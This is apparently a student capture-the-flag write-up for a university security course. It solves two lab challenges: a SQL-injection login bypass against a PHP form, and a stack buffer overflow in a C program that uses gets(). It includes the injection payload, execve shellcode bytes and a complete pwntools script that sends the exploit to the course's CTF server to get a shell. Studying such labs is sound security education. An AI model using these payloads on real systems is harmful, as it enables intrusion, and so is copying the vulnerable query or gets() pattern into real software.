






# FSI-CTFS: Week #8

## **First Challenge**

**Goal:** Login into the admin account in order to get the flag.

**Website analysis**

We are given the [index.php](Semana8-Desafio1/index.php) file of out website. Let's start by analysing the php code.

```php
if (!empty($_POST)) {

    require_once 'config.php';

    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                            
    if ($result = $conn->query($query)) {
                        
        while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
        $_SESSION['username'] = $data['username'];

        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
        include "/flag.txt";
        echo "</code>";

        }
    } else {            
        // falhou o login
        echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
    }
}
```

> Pay attention to this line:
```php 
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
- The query statement is not prepared before being sent to the database! Which means we have a sql injection vulnerability!
- This allows us to exploit the query and access the admin account without the need of a password!

### **Attack**

In order to login into the admin account without a password, all we need to do is remove the password verification from the query. To do that, let's remember that in PHP, to add a comment we use the '#' char.
```php 
# This is a comment in PHP
```
If we insert 'admin';#' in the username field, the password segment of the query will become obsolete!
```php 
$query = "SELECT username FROM user WHERE username = 'admin';#' AND password = '".$password."'";
```
> Let's try it on our vulnerable website! (In the the password field, you can type in anything, as it will be commented out in the PHP code)



>And then we obtain our flag!



## **Second Challenge**

**Goal:** Come up with an exploit to the buffer overflow vulnerability on the program running in the CTF server to get shell, in order to get the flag which is located in the working directory.

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- No Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- PIE Enabled - ASLR is enabled



**Program analysis**

The program enabled ASLR which means now we can't 'hardcode' the memory address we want to overwrite! However, the program prints out the address in which the buffer is located.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

- The vulnerability is present the gets(buffer) function call. This function is known to be very dangerous to use because it is impossible to tell how many characters it will read, without knowing the input in advance.

```
Bugs section of gets man page:

Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```
That means we can cause a **buffer overflow**!

### **Attack**
> Now that we know we have a buffer overflow vulnerability in the gets function, let's figure out what we need to write to the buffer.
- If we want to open a shell, we'll need to write some shellcode into memory and then get our program to execute that shellcode

How can we do that?

We need to overwrite the return addres of the gets function call so it jumps to out shellcode instead! But to that, we need to find what the offset (&buffer - $ebp) is.

> We can achieve that with the help of gdb-peda, which is a Python Exploit Development Assistance for GDB. It add some extra funcionalities to gdb and is very useful to analyse these programs. Find more about it [here](https://github.com/longld/peda).



- We use the pattern function to generate a 120 char pattern to memory to use as input for our program. The goal with this is to try to guess where the return addres is. And as you can see, we got a **SIGSEGV** (Segmentation fault) which means the program crash, which tells us we were able to overwrite our return address and the program wasn't able to exit the gets function as expected. So that means we are a little off on the offset but we now know it is lower that 120.



- We now use the pattern function to search which tells us that EIP+0 was found at offset: 107
- After testing with offset 107, we found found out it's just off by 1, so the offset is 108

> We now need to build our payload with the help of the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

# -- Shellcode for 32bit i386 -- #
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

# -- Retrives buffer address from the program output -- #
address = p.recvline_contains(b'Your buffer is')[17:25].decode('utf-8')
print("Buffer address: " + address)

# -- Prepares buffer address for the payload -- #
buffer = bytearray.fromhex(address)
buffer.reverse()

# -- Offset found during code analysis with gdb -- #
offset= 108

# -- Payload Construction -- #
payload = shellcode + b'\x90' * (offset -  len(shellcode)) + buffer

print('Sending Payload...')
p.sendline(payload)
p.interactive()

```

Let's explain the script:
- The shellcode is a shellcode for 32bit system
- The next code segment is used to retrieve our buffer address given by the program
- We then prepare that buffer to use in our payload
- After that, we use the offset we previously found using gdb
- And finally, we construct our payload and send it to the server


> And obtained our second desired flag!


